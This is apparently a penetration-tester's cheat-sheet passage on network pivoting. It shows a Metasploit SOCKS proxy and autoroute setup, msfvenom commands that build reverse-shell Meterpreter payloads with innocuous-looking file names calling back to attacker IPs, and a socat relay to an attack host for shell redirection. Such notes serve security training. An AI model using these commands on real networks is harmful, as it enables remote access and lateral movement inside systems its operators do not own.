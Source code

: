 ```
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options
Module options (auxiliary/server/socks_proxy):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```
Then confirm it by running `jobs` in `msfconsole`

To make an autoroute in `msfconsole` run
```
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
Or in `Meterpreter`
```
run autoroute -s 172.16.5.0/23
```
Then list active routes with
```
run autoroute -p
```
MSFVenom payload to pivot
```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
### SOCAT
*This is just a bidirectional relay tool for piping data between 2 network channels*
```
socat TCP4-LISTEN:8080,fork TCP4:<attack host>:80
```
*This tool is cool because it without using SSH*
You can use this to do bind and reverse shell redirects
